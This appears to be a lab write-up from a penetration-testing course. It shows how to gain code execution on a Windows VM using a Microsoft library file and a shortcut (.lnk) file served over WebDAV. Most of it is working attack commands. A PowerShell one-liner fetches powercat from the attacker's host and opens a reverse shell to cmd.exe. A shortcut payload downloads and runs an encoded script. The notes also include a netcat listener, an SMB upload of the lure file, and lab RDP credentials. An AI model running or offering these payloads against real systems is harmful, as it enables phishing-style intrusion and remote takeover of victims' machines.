 # Questions 1
Follow the steps in this section to get code execution on the HR137 (VM Group 1 - VM #2) system by using library and shortcut files. Be aware that after every execution of a .lnk file from the WebDAV share, the library file from the SMB share will be removed. You can find the flag on the desktop of the hsmith user. You can use VM #1 of VM Group 1 to build the library file and shortcut.

# setup WebDAV on Kali
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav

xfreerdp into the VM#1
xfreerdp /u:'offsec' /p:'lab' /v:192.168.244.194:3389 /size:95% /cert:ignore +clipboard /drive:smbfolder,/home/kali/Desktop/Windows

# kali command prompt
LHOST=192.168.45.185
LPORT=8443
pwsh -c "iex (New-Object System.Net.WebClient).DownloadString('http://$LHOST:88/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > revshell-pwsh.txt

# Make sure the code are hashed and listen to payload remote port
head revshell-pwsh.txt 
nc -lvnp 8443

# Create a shortcut file "automatic_configuration.lnk" and paste below code to shortcut
powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://192.168.45.185:88/revshell-pwsh.txt'); iex 'powershell -E $code'""

# Create a Microsoft Library file "config.Library-ms"

# Copy "config.Library-ms" and "automatic_configuration.lnk" file to the webdav folder
cd /home/kali/webdav

# Use SMBClient upload Microsoft Library file to target's machine
smbclient //192.168.50.195/share -c 'put config.Library-ms'

# Find the flag at hsmith user's desktop.
